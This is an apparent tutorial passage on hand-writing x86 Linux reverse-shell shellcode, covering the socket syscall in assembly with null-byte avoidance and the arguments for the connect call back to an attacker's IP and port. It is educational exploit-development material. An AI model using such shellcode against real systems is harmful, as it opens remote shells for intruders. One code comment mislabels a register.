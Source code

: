 ##### Socket

###### Creates an endpoint for communication

Our next step is to initialize the socket. In order to concrete such action, it is required to move the value of the socket (359) syscall into eax. I have chosen to push the 
value as a word into the ax register, in order to avoid null characters. Furthermore, according to the syscall man page for socket, the required flags involve domain (EBX), type 
(ECX) and protocol (EDX). A common combination when it comes to remote shells is AF_INET, SOCK_STREAM. According to [this file](https://students.mimuw.edu.pl/SO/Linux/Kod/include/linux/socket.h.html), the value of AF_INET is 2 and SOCK_STREAM 1, therefore, this will be reflected on the EBX and ECX 
registers. Finally, the value of protocol (EDX) isn't actually very relevant. Due to this, EDX is simply pushed.

```term
      push word 359           ; Pushes word 359 (socket) into the stack.
      pop ax                  ; Pops such word into ax so there are no nulls.
      mov bl, 2               ; Moves value 2 into bl, giving the value AF_INET.
      mov cl, 1               ; Moves value 1 into bl, giving the value SOCK_STREAM.
      push edx                ; There isn't anything really needed within this parameter, so 0 is pushed from EDX.
      int 0x80                ; Call to kernel.
      mov esi, eax            ; Saves the value of eax for sockfd values later on.
```

As explained on the previous post, we can see that the value of EAX is being saved on ESI, this will be from great help when referring to the socket syscall as a file 
descriptor.

##### Connect

###### Initiate a connection on a socket

The following step is to initiate a connection on the socket. The arguments according the man page are the following: ```int connect(int sockfd, const struct sockaddr *addr, 
socklen_t addrlen);```. As you may see, the required flags are quite the same to the bind syscall in the previous post. Nonetheless, if you remember, in the previous post a 
value of 0 was pushed within the IP protocol argument, value which will be essential this time, therefore, the order will be the following:

+ 0            (As it is required to push 0, the instruction PUSH EDX will be used.)
+ IP Address   (As this is a reverse shell, it is required to point to a specific address. Due to the aforementioned, this will be set to our IP within hex.)
+ Chosen Port  (The chosen port will be pushed in hex as a word.)
+ AF_INET

Furthermore, we have to satisfy the socklen_t addrlen argument as well. This requires the length of the previous struct, as like in the previous chapter, it was 16 (any value 
above this could be used as well) . This will be reflected upon the value of DL. 

###### Syscall value:
```term
root@whitecr0wz:~# cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep connect 
#define __NR_connect 362
root@whitecr0wz:~#
```

